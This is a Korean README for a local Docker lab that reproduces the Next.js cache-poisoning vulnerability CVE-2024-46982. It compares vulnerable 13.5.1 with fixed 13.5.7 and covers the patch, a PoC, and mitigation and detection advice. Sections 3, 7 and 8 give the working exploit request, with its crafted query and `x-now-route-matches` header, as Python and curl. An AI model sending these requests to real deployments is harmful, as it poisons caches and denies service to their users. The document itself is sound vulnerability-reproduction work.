








# Next.js SSR Cache Poisoning (CVE-2024-46982)

> Contributor: [@MyeongJong03](https://github.com/MyeongJong03)
>
> 이 환경은 로컬 Docker Compose 네트워크에서만 사용하도록 구성했다. 외부 서비스, 웹훅, CDN, 브라우저 봇은 사용하지 않는다.

## 1. 취약점 요약

CVE-2024-46982는 Next.js Pages Router의 **비동적 SSR 라우트**에서 발생하는 캐시 오염 취약점이다. 공격자가 내부 라우팅에 사용되는 헤더와 데이터 요청 신호를 조합하면, 원래 공유 캐시에 저장되면 안 되는 `getServerSideProps` 응답이 SSG 응답처럼 취급될 수 있다. 그 결과 정상 HTML 경로가 공격 요청에서 생성된 JSON 응답을 재사용한다.

이 실습에서는 같은 애플리케이션 소스를 Next.js `13.5.1`과 `13.5.7`로 각각 빌드한다. `13.5.1`에서는 정상 `/dashboard` 요청이 오염된 JSON을 재사용하고, CVE-2024-46982 수정 대조군인 `13.5.7`에서는 정상 SSR HTML을 유지하는지 자동으로 비교한다.

| 항목 | 내용 |
| --- | --- |
| CVE | CVE-2024-46982 |
| 제품 | Next.js |
| 취약점 | Pages Router 비동적 SSR 라우트의 캐시 오염 |
| 영향 범위 | `13.5.1 <= version < 13.5.7`, `14.0.0 <= version < 14.2.10` |
| 실습 취약 버전 | Next.js `13.5.1` |
| 수정 대조군 | Next.js `13.5.7` |
| 인증 | 불필요 |
| 사용자 상호작용 | 불필요 |
| 공식 CVSS | **7.5 High** |
| CVSS 벡터 | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H` |
| Reproducibility | **90%** |

Vercel 보안 공지는 다음 조건을 모두 만족하는 환경을 영향 대상으로 설명한다.

1. 영향받는 Next.js 버전 사용
2. Pages Router 사용
3. `getServerSideProps`를 사용하는 비동적 고정 경로 사용

App Router만 사용하는 배포와 Vercel 관리형 배포는 공지상 영향을 받지 않는다. 공식 우회책은 없으며, 수정 버전 이상으로 업그레이드하는 것이 권고된다.

- Vendor advisory: <https://github.com/vercel/next.js/security/advisories/GHSA-gp8f-8m3g-qvj9>
- NVD: <https://nvd.nist.gov/vuln/detail/CVE-2024-46982>

## 2. 무엇을 재현하는가

이 환경은 다음 동작을 증명한다.

- 정상 `/dashboard` 요청은 SSR HTML과 `private, no-store` 계열 캐시 정책을 반환한다.
- `__nextDataReq=1`과 `x-now-route-matches: 1`을 결합한 요청은 취약 버전에서 공유 캐시 가능한 JSON을 만든다.
- 공격 헤더와 쿼리가 전혀 없는 다음 `/dashboard` 요청이 같은 marker, `generatedAt`, ETag를 가진 JSON을 재사용한다.
- 수정 대조군에서는 같은 공격 이후에도 정상 HTML과 `baseline` marker가 유지된다.

다음은 이 실습의 범위가 아니다.

- 원격 명령 실행
- 관리자 세션 또는 쿠키 탈취
- 외부 CDN을 이용한 오염 지속
- Stored XSS
- 기밀 데이터 유출

`X-Lab-Marker`는 취약점을 발생시키는 헤더가 아니다. 공격 요청에서 생성된 데이터가 정상 요청에 재사용됐는지 구조적으로 확인하기 위한 **canary**다. 앱에는 별도의 캐시 구현이나 CVE를 모방하는 코드가 없다.

## 3. 취약 조건

실습 페이지는 아래 조건을 만족한다.

```text
Pages Router
└── pages/dashboard.js
    └── getServerSideProps()
```

`/dashboard`는 동적 세그먼트가 없는 고정 SSR 경로다. 요청마다 현재 시각과 `X-Lab-Marker` 값을 props로 만든다.

```javascript
export async function getServerSideProps({ req }) {
  const markerHeader = req.headers['x-lab-marker']
  const marker = Array.isArray(markerHeader)
    ? markerHeader[0]
    : markerHeader || 'baseline'

  return {
    props: {
      marker,
      generatedAt: new Date().toISOString(),
    },
  }
}
```

정상 SSR 응답은 다음과 같은 캐시 정책을 사용한다.

```http
Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
```

취약 요청은 다음 두 신호를 결합한다.

```http
GET /dashboard?__nextDataReq=1 HTTP/1.1
Host: vulnerable:3000
x-now-route-matches: 1
X-Lab-Marker: <UUID>
```

- `__nextDataReq=1`: HTML이 아니라 `pageProps` JSON을 생성하는 데이터 요청 신호
- `x-now-route-matches: 1`: 요청을 SSG/재검증 흐름으로 오인하게 만드는 내부 라우팅 헤더
- `X-Lab-Marker`: 캐시 항목 재사용을 확인하는 실습용 값

취약 버전에서는 이 응답이 다음 정책으로 생성된다.

```http
Cache-Control: s-maxage=1, stale-while-revalidate
```

이후 공격 상태가 없는 정상 요청을 보낸다.

```http
GET /dashboard HTTP/1.1
Host: vulnerable:3000
```

성공 시 응답 헤더는 `text/html`이지만, 실제 본문은 공격 요청에서 생성된 JSON이다. PoC는 단순 문자열 포함 여부가 아니라 marker, `generatedAt`, ETag, HTML 구조, JSON 파싱 여부를 함께 검사한다.



## 4. 내부 동작과 패치

취약 버전에서는 crafted request가 SSR 페이지를 SSG처럼 처리하도록 만들고, 렌더 결과에 `revalidate` 값이 없으면 캐시 계층이 이를 `1`로 보정할 수 있었다. 이 때문에 요청별 SSR 데이터가 1초짜리 캐시 항목으로 저장됐다.

공식 패치는 크게 두 부분이다.

1. `getServerSideProps` 처리 후 `metadata.revalidate = 0` 설정
2. 정의되지 않은 `revalidate` 값을 `1`로 바꾸던 fallback 제거

```diff
- revalidate:
-   result.revalidate !== undefined
-     ? result.revalidate
-     : 1,
+ revalidate: result.revalidate,
```

```diff
  canAccessRes = false
+ metadata.revalidate = 0
```

패치는 `__nextDataReq` 기능 자체를 제거한 것이 아니다. SSR 응답이 캐시 가능한 SSG 결과로 전달되지 않도록 상태를 바로잡는다.

- Patch: <https://github.com/vercel/next.js/commit/7ed7f125e07ef0517a331009ed7e32691ba403d3>



## 5. 환경 구성



| 서비스 | 역할 | 버전 | 호스트 바인딩 |
| --- | --- | --- | --- |
| `vulnerable` | 취약 대상 | Next.js `13.5.1` | `127.0.0.1:3000` |
| `fixed` | 수정 대조군 | Next.js `13.5.7` | `127.0.0.1:3001` |
| `poc` | 자동 공격·판정 | Python `3.12.13` | 외부 포트 없음 |

두 Next.js 이미지가 사용하는 앱 소스는 완전히 동일하다. 차이는 버전별 `package.json`과 lockfile의 Next.js 버전뿐이다.

### 고정된 베이스 이미지

```text
node:20.15.1-bookworm-slim
sha256:b21bcf3e7b6e68d723eabedc6067974950941167b5d7a9e414bd5ac2011cd1c4
```

```text
python:3.12.13-slim-bookworm
sha256:8a7e7cc04fd3e2bd787f7f24e22d5d119aa590d429b50c95dfe12b3abe52f48b
```

취약한 제3자 완성 이미지를 사용하지 않는다. 공식 Node 이미지에서 저장소의 앱과 lockfile을 직접 빌드한다. PoC도 외부 Python 패키지 없이 표준 라이브러리만 사용한다.

### 프로젝트 구조

```text
CVE-2024-46982/
├── README.md
├── docker-compose.yml
├── .dockerignore
├── .gitattributes
├── app/
│   ├── next.config.js
│   └── pages/
│       ├── index.js
│       └── dashboard.js
├── dependencies/
│   ├── vulnerable/
│   │   ├── package.json
│   │   └── package-lock.json
│   └── fixed/
│       ├── package.json
│       └── package-lock.json
├── docker/
│   ├── vulnerable.Dockerfile
│   ├── fixed.Dockerfile
│   └── poc.Dockerfile
├── poc/
│   └── verify.py
└── screenshots/
```

## 6. 자동 재현

### 사전 요구사항

```bash
docker --version
docker compose version
```

### 한 번에 실행

저장소 루트에서 다음 명령을 실행한다.

```bash
cd Next.js/CVE-2024-46982

docker compose up --build \
  --abort-on-container-exit \
  --exit-code-from poc
```

이 명령은 다음 순서로 동작한다.

1. 취약 버전과 수정 대조군을 production 모드로 빌드
2. 두 서비스의 healthcheck 대기
3. PoC 컨테이너 실행
4. 취약 버전의 캐시 오염 재현
5. 수정 대조군의 정상 HTML 유지 확인
6. 모든 assertion이 통과하면 종료 코드 `0` 반환

### 성공 출력

```text
[PASS] vulnerable 13.5.1 reproduced
[PASS] fixed comparison 13.5.7 resisted the same request
[PASS] differential verification completed in 0.1xxs
```





PoC가 끝나면 Compose가 장기 실행 중인 Next.js 컨테이너를 종료한다. 이때 서버 로그에 `npm error signal SIGTERM` 또는 서버 컨테이너 종료 코드 `1`이 보일 수 있다. 이는 `--abort-on-container-exit`에 따른 정상 종료 과정이다. 최종 성공 여부는 `poc`와 Compose 명령의 종료 코드로 판단한다.

### 정리

```bash
docker compose down -v --remove-orphans
```

## 7. PoC 판정 기준

전체 코드는 [`poc/verify.py`](./poc/verify.py)에 있다. PoC는 Python 표준 라이브러리 `http.client`, `json`, `html.parser`만으로 구현했다.

### 취약 버전

다음 조건을 모두 만족해야 성공이다.

1. 공격 전 `/dashboard`가 정상 SSR HTML
2. 일반 데이터 요청이 비캐시 JSON
3. crafted request가 UUID marker를 포함한 JSON
4. crafted response에 정확한 `s-maxage=1`
5. 공격 상태가 없는 후속 `/dashboard`가 전체 JSON으로 파싱됨
6. 후속 응답에 HTML 문서 구조가 없음
7. marker, `generatedAt`, ETag가 crafted response와 동일

핵심 요청은 다음과 같다.

```python
crafted = request(
    target,
    "/dashboard?__nextDataReq=1",
    (("x-now-route-matches", "1"), ("X-Lab-Marker", marker)),
    deadline,
)
normal = request(target, "/dashboard", (), deadline)
```

정상 요청에 공격 헤더가 실수로 포함되지 않았는지도 검사한다.

```python
expected_headers = (("Host", f"{target}:3000"),)
require(
    normal.path == "/dashboard" and normal.request_headers == expected_headers,
    "VULNERABLE_NOT_REPRODUCED",
    target,
    "normal request contains attack state",
    normal,
)
```

### 수정 대조군

crafted request가 `500`을 반환하는 것만으로 차단 성공을 판정하지 않는다. 뒤이어 보낸 정상 요청에서 아래 조건을 모두 확인한다.

- HTTP `200`
- `Content-Type: text/html`
- 전체 body는 JSON이 아님
- `doctype`, `html`, `head`, `body` 구조 존재
- `id="lab-dashboard"`와 `__NEXT_DATA__` 존재
- marker가 `baseline`
- 공격 UUID가 raw body와 구조화 데이터에 없음
- `private, no-store` 캐시 정책 유지
- crafted body를 재사용하지 않음

### False positive 방지

- HTTP `200`만으로 취약 판정하지 않음
- 공격 응답 자체에 marker가 보이는 것만으로 성공 판정하지 않음
- `x-nextjs-cache` 값은 기록만 하고 assertion에 사용하지 않음
- 무한 retry와 `sleep` 없음
- 실행마다 새 UUID 생성
- 요청별 3초, 전체 30초 timeout
- 허용 대상은 Compose 내부 `vulnerable`, `fixed`와 포트 `3000`뿐

## 8. 수동 확인

자동 PoC가 기본 재현 경로다. 응답을 직접 확인하려면 아래 명령을 사용한다.

```bash
cd Next.js/CVE-2024-46982

docker compose down -v --remove-orphans
docker compose up -d --build --wait vulnerable fixed

MARKER="manual-$(date +%s%N)"

curl --http1.1 -sS \
  -D /tmp/cve-46982-vuln-crafted.headers \
  -o /tmp/cve-46982-vuln-crafted.body \
  -H 'x-now-route-matches: 1' \
  -H "X-Lab-Marker: ${MARKER}" \
  'http://127.0.0.1:3000/dashboard?__nextDataReq=1'

curl --http1.1 -sS \
  -D /tmp/cve-46982-vuln-normal.headers \
  -o /tmp/cve-46982-vuln-normal.body \
  'http://127.0.0.1:3000/dashboard'

printf '\n[crafted headers]\n'
grep -Ei '^(HTTP/|Content-Type:|Cache-Control:|ETag:)' \
  /tmp/cve-46982-vuln-crafted.headers

printf '\n[normal headers]\n'
grep -Ei '^(HTTP/|Content-Type:|Cache-Control:|ETag:)' \
  /tmp/cve-46982-vuln-normal.headers

printf '\n[marker reuse]\n'
grep -F "${MARKER}" /tmp/cve-46982-vuln-normal.body

printf '\n[body equality]\n'
cmp /tmp/cve-46982-vuln-crafted.body \
    /tmp/cve-46982-vuln-normal.body \
  && echo 'crafted body == normal body'
```

취약 버전에서는 정상 응답의 `Content-Type`이 `text/html`이지만 body는 crafted JSON과 동일하다.

수정 대조군은 다음처럼 확인할 수 있다.

```bash
MARKER="manual-fixed-$(date +%s%N)"

curl --http1.1 -sS \
  -D /tmp/cve-46982-fixed-crafted.headers \
  -o /tmp/cve-46982-fixed-crafted.body \
  -H 'x-now-route-matches: 1' \
  -H "X-Lab-Marker: ${MARKER}" \
  'http://127.0.0.1:3001/dashboard?__nextDataReq=1' || true

curl --http1.1 -sS \
  -D /tmp/cve-46982-fixed-normal.headers \
  -o /tmp/cve-46982-fixed-normal.body \
  'http://127.0.0.1:3001/dashboard'

grep -F '<!DOCTYPE html>' /tmp/cve-46982-fixed-normal.body
grep -F 'baseline' /tmp/cve-46982-fixed-normal.body

if grep -Fq "${MARKER}" /tmp/cve-46982-fixed-normal.body; then
  echo 'unexpected: attack marker was reused'
  exit 1
else
  echo 'fixed comparison kept normal SSR HTML'
fi
```

정리한다.

```bash
docker compose down -v --remove-orphans
```

## 9. 실행 결과

검증 환경:

```text
WSL2 x86_64
Docker 29.6.1
Docker Compose 5.3.0
Node.js 20.15.1
Python 3.12.13
```

동일한 제출 명령을 원본 작업 트리에서 3회 실행하고, Git 저장소 밖의 깨끗한 사본에서도 no-cache 빌드 후 한 번 더 실행했다.

| 실행 | 위치 | 종료 코드 | 총 시간 | 결과 |
| --- | --- | ---: | ---: | --- |
| no-cache build | 원본 | 0 | 37.431초 | 세 이미지 빌드 성공 |
| run 1 | 원본 | 0 | 10.329초 | 취약 재현 / 수정 차단 |
| run 2 | 원본 | 0 | 9.889초 | 취약 재현 / 수정 차단 |
| run 3 | 원본 | 0 | 10.169초 | 취약 재현 / 수정 차단 |
| clean-copy build | Git 밖 사본 | 0 | 43.517초 | no-cache 빌드 성공 |
| clean-copy run | Git 밖 사본 | 0 | 11.017초 | 취약 재현 / 수정 차단 |

총 재현 실행은 **4/4 성공**했다. 검증 전후 제출 소스의 SHA-256과 mtime도 동일했다.





### 실제 응답 차이

| 항목 | Next.js 13.5.1 | Next.js 13.5.7 |
| --- | --- | --- |
| crafted HTTP | `200` | `500` |
| crafted body | marker 포함 JSON | 오류 응답 |
| crafted Cache-Control | `s-maxage=1, stale-while-revalidate` | `no-cache, no-store` |
| 정상 `/dashboard` | `text/html` 헤더 + poisoned JSON body | 정상 SSR HTML |
| marker | 공격 UUID 재사용 | `baseline` 유지 |
| `generatedAt` | crafted와 동일 | 새 SSR 값 |
| ETag | crafted와 동일 | 정상 HTML ETag |

## 10. Risk Score

공식 CVSS v3.1 점수인 **7.5 High**를 Risk Score로 사용한다.

| 항목 | 값 | 근거 |
| --- | --- | --- |
| Attack Vector | Network | 원격 HTTP 요청으로 공격 가능 |
| Attack Complexity | Low | 알려진 헤더와 쿼리 조합만 필요 |
| Privileges Required | None | 인증 불필요 |
| User Interaction | None | 피해자 조작 불필요 |
| Scope | Unchanged | Next.js 애플리케이션 범위 내 영향 |
| Confidentiality | None | 기본 CVE 및 본 PoC에서 기밀성 침해를 증명하지 않음 |
| Integrity | None | 기본 점수에서 무결성 영향 없음 |
| Availability | High | 정상 HTML 경로가 오염된 JSON으로 대체될 수 있음 |

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

반사되는 사용자 입력, MIME 처리, CDN 설정 등 추가 조건이 결합되면 XSS나 정보 노출 체인이 가능할 수 있다. 이 실습에서는 그러한 확장 영향을 Risk Score 근거로 사용하지 않는다.

## 11. Reproducibility

**90%**로 평가했다.

가점 근거:

- 단일 Compose 명령으로 빌드·공격·판정 완료
- 원본 3회와 Git 밖 clean-copy 1회 모두 성공
- 취약 버전과 수정 대조군을 같은 실행에서 비교
- marker, `generatedAt`, ETag를 결합한 엄격한 판정
- 취약 앱과 PoC 소스를 저장소에 포함
- 공식 베이스 이미지를 digest로 고정
- 호스트 Python, Node.js, npm, curl이 기본 실행에 필요하지 않음
- 실행 후 컨테이너와 네트워크 정리 확인

감점 요인:

- 실제 실행 검증은 x86_64에서만 수행
- 최초 빌드에는 Docker Hub와 npm registry 네트워크 접근 필요
- 매우 짧은 캐시 상태 전이를 사용하는 프레임워크 취약점 특성

## 12. 대응 방안

### 1. 수정 버전 이상으로 업그레이드

공식 수정 버전은 다음과 같다.

- 13 계열: `13.5.7`
- 14 계열: `14.2.10`

다만 두 버전은 현재 기준 최신 지원 버전이 아니다. 운영 환경에서는 해당 최소 수정 버전에 머무르지 말고 **현재 지원되는 최신 안정 버전**으로 업그레이드해야 한다.

### 2. 캐시 정리

업그레이드 후 기존 Next.js 캐시와 upstream CDN 캐시를 purge한다. 패치만 적용하고 이미 오염된 공유 캐시를 남기면 기존 응답이 일정 시간 제공될 수 있다.

### 3. 내부 헤더 필터링

리버스 프록시나 WAF에서 외부 요청의 `x-now-route-matches`와 같은 내부 전용 헤더를 제거하는 것은 방어 심층화에 도움이 된다. 하지만 공식 우회책은 아니며 업그레이드를 대신할 수 없다.

### 4. Pages Router SSR 경로 점검

다음 조건의 라우트를 우선 확인한다.

- Pages Router 사용
- 동적 세그먼트가 없는 고정 경로
- `getServerSideProps` 사용
- 사용자별 데이터 또는 요청 헤더를 props에 반영

### 5. 이상 응답 탐지

정상 HTML 경로에서 다음 징후를 모니터링한다.

- `Content-Type: text/html`인데 body가 JSON
- SSR 경로의 `s-maxage=1, stale-while-revalidate`
- 외부 요청의 `x-now-route-matches`
- 비정상적으로 짧거나 JSON 형태인 HTML 응답

## 13. 검증 범위와 한계

- 실습 버전은 안정적인 내부 캐시 재현이 확인된 `13.5.1`과 같은 브랜치의 수정 대조군 `13.5.7`을 선택했다.
- 공식 영향 범위에는 14 계열도 포함된다. 별도 진단에서 `14.2.9`은 crafted JSON과 `s-maxage=1`까지 생성했지만, 이 `next start` 조건에서는 후속 정상 경로가 캐시 항목을 재사용하지 않았다. 이 결과를 근거로 14.2.9이 비영향 버전이라고 주장하지 않는다.
- 외부 CDN, custom server, standalone/minimal mode는 검증하지 않았다.
- `13.5.7`은 CVE-2024-46982 수정 대조군일 뿐, 다른 보안 문제까지 없는 최신 안전 버전이라는 의미가 아니다.
- 멀티아키텍처 이미지 manifest는 존재하지만 실제 실행은 WSL2 x86_64에서만 검증했다.

## 14. 참고 자료

- Vercel advisory — <https://github.com/vercel/next.js/security/advisories/GHSA-gp8f-8m3g-qvj9>
- NVD — <https://nvd.nist.gov/vuln/detail/CVE-2024-46982>
- 14.x patch commit — <https://github.com/vercel/next.js/commit/7ed7f125e07ef0517a331009ed7e32691ba403d3>
- Original research — <https://zhero-web-sec.github.io/research-and-things/nextjs-cache-and-chains-the-stale-elixir>
